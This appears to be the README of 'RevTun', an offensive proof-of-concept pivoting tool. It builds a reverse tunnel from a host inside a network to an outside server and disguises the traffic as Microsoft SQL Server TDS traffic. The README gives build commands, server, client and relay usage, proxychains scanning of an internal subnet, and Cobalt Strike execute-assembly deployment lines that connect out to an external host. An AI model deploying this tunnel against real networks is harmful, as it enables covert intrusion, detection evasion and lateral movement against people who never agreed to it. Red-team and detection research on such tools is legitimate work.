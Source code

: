 # RevTun

RevTun is a POC tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

## Usage

### Server
```bash
./revtun server --port 1433 --proxy-port 1080
```

### Client 
```bash
./revtun client --host server.com --port 1433 --encrypt
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --port 1433 --server-port 1433 --debug
```

### Using SOCKS Proxy
```bash
curl --proxy socks5://localhost:1080 http://internal-resource.local
proxychains nmap -sT 192.168.1.0/24
```

## Cobalt Strike Integration

### Deployment
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [external-ip] --port 1433 --encrypt

# Relay on pivot host
execute-assembly revtun.exe relay --host [internal-sql-server] --port 1433
```

## Command Options

### Server
```
--port, -p <port>          MSSQL server port (default: 1433)
--proxy-port <port>        SOCKS proxy port (default: 1080)  
--bind <address>           Bind address (default: 0.0.0.0)
--verbose, -v              Enable verbose logging
--require-encryption       Require TLS encryption
```

### Client  
```
--host, -h <hostname>      Server hostname (default: localhost)
--port, -p <port>          Server port (default: 1433)
--username, -u <user>      SQL username (default: sa)
--password <pass>          SQL password (default: Password123)
--auto-exit                Exit after connection test
--verbose, -v              Enable verbose logging
--debug                    Enable debug output
--encrypt                  Request TLS encryption
```

### Relay
```
--port, -p <port>          Relay listener port (default: 1433)
--bind <address>           Bind address (default: 0.0.0.0)
--host, -h <hostname>      Target server hostname (default: localhost)
--server-port <port>       Target server port (default: 1433)
--verbose, -v              Enable verbose logging
--debug                    Enable debug output with TDS packet analysis
```
